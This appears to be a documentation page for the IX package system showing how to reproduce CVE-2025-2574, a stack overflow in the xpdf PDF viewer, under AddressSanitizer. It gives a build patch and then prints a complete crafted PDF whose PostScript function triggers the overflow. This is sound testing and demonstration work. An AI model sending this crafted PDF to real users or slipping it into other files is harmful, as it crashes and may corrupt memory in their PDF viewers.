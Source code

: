 ### CVE-2025-2574

`bin/xpdf` is a PDF renderer written in C++ that is notorious for [multiple unpatched vulnerabilities](https://github.com/NixOS/nixpkgs/blob/5f4f306bea96741f1588ea4f450b2a2e29f42b98/pkgs/applications/misc/xpdf/default.nix#L96-L105).

Let's trigger [one of them](https://www.xpdfreader.com/security-bug/CVE-2025-2574.html): a [stack overflow](https://github.com/karelbilek/xpdf-mirror/blob/2009ee360556e8260a2d8b21820bb8f36c9377e8/xpdf/Function.cc#L1229)
when executing a PostScript function.

To run `bin/xpdf` with AddressSanitizer, we currently have to apply workarounds for two known issues related to AddressSanitizer
integration in **IX**, both of which will eventually be fixed.

First, the following patch should be applied to the IX package base:
```
> git diff
diff --git a/pkgs/bin/xpdf/viewer/ix.sh b/pkgs/bin/xpdf/viewer/ix.sh
index 3cec77d0e..913284aab 100644
--- a/pkgs/bin/xpdf/viewer/ix.sh
+++ b/pkgs/bin/xpdf/viewer/ix.sh
@@ -3,7 +3,6 @@
 {% block bld_libs %}
 lib/qt/6/base
 lib/qt/6/deps
-lib/{{allocator}}/trim(delay=1,bytes=1000000)
 {{super()}}
 {% endblock %}
```


Second, we need to set the `ASAN_OPTIONS` environment variable to `detect_odr_violation=0`.

With that out of the way, let's craft a malicious PDF:
```
> cat xpdf_CVE-2025-2574.pdf
%PDF-1.4
1 0 obj
<< /Type /Catalog /Pages 2 0 R >>
endobj
2 0 obj
<< /Type /Pages /Kids [3 0 R] /Count 1 >>
endobj
3 0 obj
<< /Type /Page
   /MediaBox [0 0 3 3]
   /Resources <<
        /Shading << /Sh1 4 0 R >>
    >>
   /Contents 5 0 R >>
endobj
4 0 obj
<< /ShadingType 1 /Function 6 0 R >>
endobj
5 0 obj
<< /Length 7 >>
stream
/Sh1 sh
endstream
endobj
6 0 obj
<< /FunctionType 4 /Domain [0 1 0 1] /Range [0 1 0 1 0 1]
   /Length 33 >>
stream
{ 2147483647 1 roll }
endstream
```